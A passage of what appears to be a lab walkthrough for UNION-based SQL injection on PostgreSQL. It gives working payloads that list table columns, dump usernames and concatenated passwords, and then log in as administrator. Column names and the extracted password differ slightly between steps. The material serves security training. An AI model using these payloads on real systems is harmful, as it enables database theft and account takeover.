 ### 🔹 Step 7: Enumerate Columns in the Users Table

Once you identify the users table name (`users_oxbwnm`), get its column names:

```http
GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_oxbwnm'--
```

✅ Returns:
- `username_axxxxxx`
- `password_sxxxxxz`
- `email`

These obfuscated column names are common in labs to make enumeration harder.

### 🔹 Step 8: Extract Usernames from the Table

Now extract usernames:

```http
GET /filter?category='+UNION+SELECT+NULL,username_avgzhq+FROM+users_oxbwnm--
```

✅ Output:
```
administrator
carlos
wiener
```

### 🔹 Step 9: Combine Username & Password into One Result

Since only one column is visible, concatenate both fields together using PostgreSQL’s `||` operator.

Use a separator like `~` to distinguish between values:

```http
GET /filter?category='+UNION+SELECT+NULL,username_avgzhq||'~'||password_syflaz+FROM+users_oxbwnm--
```

✅ Output:
```
administrator~vlxxxxxxxxxxxxxx
wiener~mjyzcbaixxxxxxxxx
carlos~oy5gi13txxxxxxxxx
```

### 🔹 Step 10: Log In as Administrator

With the credentials extracted:

- **Username:** `administrator`  
- **Password:** `vl6y3a52ajfxxxxxxxx`

Go to the login page and log in as the administrator → ✅ Lab solved!
